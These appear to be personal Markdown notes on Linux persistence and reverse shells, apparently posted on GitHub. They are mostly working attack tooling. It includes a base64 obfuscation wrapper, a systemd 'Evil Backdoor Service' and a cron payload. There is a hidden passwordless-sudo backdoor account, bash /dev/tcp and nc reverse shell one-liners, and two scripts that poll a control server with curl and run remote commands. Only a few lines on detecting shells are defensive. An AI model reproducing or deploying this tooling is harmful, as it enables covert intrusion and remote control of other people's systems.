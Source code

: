 ```yaml
---
title: AWS 
date: 2023-08-01
tags: [networking,homelab]
---
```


obsfucation :

origin is the actual script 

```
echo "echo $(base64 origin)" > obsf
chmod +x obsf
```

Running it 
```
sh obsf | base64 -d | sh
```

### Abusing Remote Access Without a Visible Session

`ssh user@host 'sudo apt install backdoor && systemctl enable backdoor'` 

you can catch it from 

`journalctl -u ssh`

### Dropping a systemd service 

Example evil service 

open a reverse shell
```
# /etc/systemd/system/evil.service
[Unit]
Description=Evil Backdoor Service
After=network.target

[Service]
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
```

### cron stuff 

```
@reboot root /usr/bin/evil_payload
```

## Shell stuff

### Reverse shell 

#### how do you find a shell ? 

Use ps to look for shells with no tty 

`ps -eo pid,user,tty,cmd | grep '[b]ash'`

Then check the parent process with 

`pstree -p <PID>`

you can also use 

`ps aux | grep bash`

*** Ussing lsof to see established connections  :- ***

`sudo lsof -i -nP | grep ESTABLISHED`

Start a shell 

```
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
#### Disable root login

`PermitRootLogin no`

#### starting a reverse shell 

- we need to create an account first that only uses keys

Name it something like *** sysuser *** 

```
sudo adduser backdooruser
sudo usermod -aG sudo backdooruser

sudo visudo
backdooruser ALL=(ALL) NOPASSWD:ALL
```
NOPASSWD helpful for running sudo commands without sudo being prompted 

- setup ssh login 

```
ssh-keygen -t rsa -b 4096

sudo su - backdooruser
mkdir -p ~/.ssh
nano ~/.ssh/authorized_keys 
```

and paste your public key 

expected permissions 

```
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```


- Disable password login

```
sudo nano /etc/ssh/sshd_config
Match User backdooruser
    PasswordAuthentication no
    AuthenticationMethods publickey
``` 

then 

`sudo systemctl restart sshd`


- 2 ways to do a revshell 

```
bash -i >& /dev/tcp/attacker-ip/4242 0>&1
nc ATTACKER_IP 4444 -e /bin/bash
```

prefer to use tcp so that you can disable nc 

Script with nc 

```
#!/bin/bash

# CONFIGURATION
URL="https://rasenrhino.github.io/static/reverse.html"  # Control server
SHELL_HOST="YOUR.ATTACKER.IP.HERE"                      # Replace with your attacker's IP
SHELL_PORT=4444                                          # Port your listener is using

# Function to start reverse shell
start_shell() {
    echo "[*] Starting reverse shell..."
    nohup nc $SHELL_HOST $SHELL_PORT -e /bin/bash &>/dev/null &
}

# Function to stop reverse shell
stop_shell() {
    echo "[*] Killing reverse shell..."
    pkill -f "nc $SHELL_HOST $SHELL_PORT"
}

# Loop to check the control server
while true; do
    response=$(curl -s "$URL")

    if [[ "$response" == "yes" ]]; then
        if ! pgrep -f "nc $SHELL_HOST $SHELL_PORT" >/dev/null; then
            start_shell
        fi
    elif [[ "$response" == "no" ]]; then
        if pgrep -f "nc $SHELL_HOST $SHELL_PORT" >/dev/null; then
            stop_shell
        fi
    else
        echo "[!] Unexpected response from server: $response"
    fi

    sleep 10
done
```

Script with tcp 

```
#!/bin/bash

# CONFIGURATION
URL="https://rasenrhino.github.io/static/reverse.html"  # Control server
SHELL_HOST="YOUR.ATTACKER.IP.HERE"                      # Your public IP
SHELL_PORT=4444                                          # Your listener port
SHELL_PID_FILE="/tmp/.bash_tcp_shell.pid"               # To track running shell

# Function to start TCP reverse shell
start_shell() {
    echo "[*] Starting TCP reverse shell..."
    bash -c "
        exec 3<>/dev/tcp/$SHELL_HOST/$SHELL_PORT
        while true; do
            if ! read -r cmd <&3; then break; fi
            out=\$(eval \"\$cmd\" 2>&1)
            echo \"\$out\" >&3
        done
    " &
    echo $! > "$SHELL_PID_FILE"
}

# Function to stop the TCP reverse shell
stop_shell() {
    echo "[*] Killing TCP reverse shell..."
    if [[ -f "$SHELL_PID_FILE" ]]; then
        kill "$(cat $SHELL_PID_FILE)" 2>/dev/null
        rm -f "$SHELL_PID_FILE"
    fi
}

# Loop to poll control server
while true; do
    response=$(curl -s "$URL")

    if [[ "$response" == "yes" ]]; then
        if [[ ! -f "$SHELL_PID_FILE" ]] || ! kill -0 "$(cat $SHELL_PID_FILE)" 2>/dev/null; then
            start_shell
        fi
    elif [[ "$response" == "no" ]]; then
        if [[ -f "$SHELL_PID_FILE" ]]; then
            stop_shell
        fi
    else
        echo "[!] Unexpected response: $response"
    fi

    sleep 10
done
```